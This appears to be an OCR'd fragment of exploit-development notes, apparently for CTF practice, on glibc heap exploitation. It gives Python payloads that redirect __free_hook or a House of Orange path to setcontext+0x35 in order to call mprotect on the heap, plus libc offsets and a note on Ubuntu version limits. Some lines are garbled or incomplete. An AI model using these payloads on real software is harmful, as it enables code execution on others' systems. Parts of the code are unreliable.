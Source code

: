 ```python
""")
'''
free(299)
p.interactive()
'''
_dl_open_hook:0x7ffff7dd62e0
stdout:0x7ffff7dd2708
global_fast_max:0x7ffff7dd67d0
'''
```

# setcontext+0x35
## payload for case: `__free_hook` -> `setcontext+0x35`
```python
rsp=heap+0x800
rdi=heap
rsi=0x1000
rdx=7
call=libc.sym['mprotect']
payload=p64(0)+p64(libc.sym['setcontext']+0x35)
payload=payload.ljust(0x68,'\0')+p64(rdi)+p64(rsi)
payload=payload.ljust(0x88)+p64(rdx)
payload=payload.ljust(0xa0,'\x00')+p64(rsp)+p64(call)
```
## payload for case: `orange call setcontext+0x35`
```python
rsp=heap+0x800
rdi=heap
rsi=0x1000
rdx=7
call=libc.sym['mprotect']
payload=
payload=payload.ljust(0x68)+p64(rdi)+p64(rsi)
payload=payload.ljust(0x88)+p64(rdx)
payload=payload.ljust(0xa0,'\x00')+p64(rsp)+p64(call)
```
## FBI WARNING
It's useful on ubuntu 16 - ubuntu 18
but not in ubuntu 19.04, there is part of souce code of setcontext@glibc-19.04:
```
//setcontext
push rdi 
....
pop rdx
...
mov    rsp,QWORD PTR [rdx+0xa0]
```
so we lose setcontext+0x35 on 19.04 or other libcs are later published.
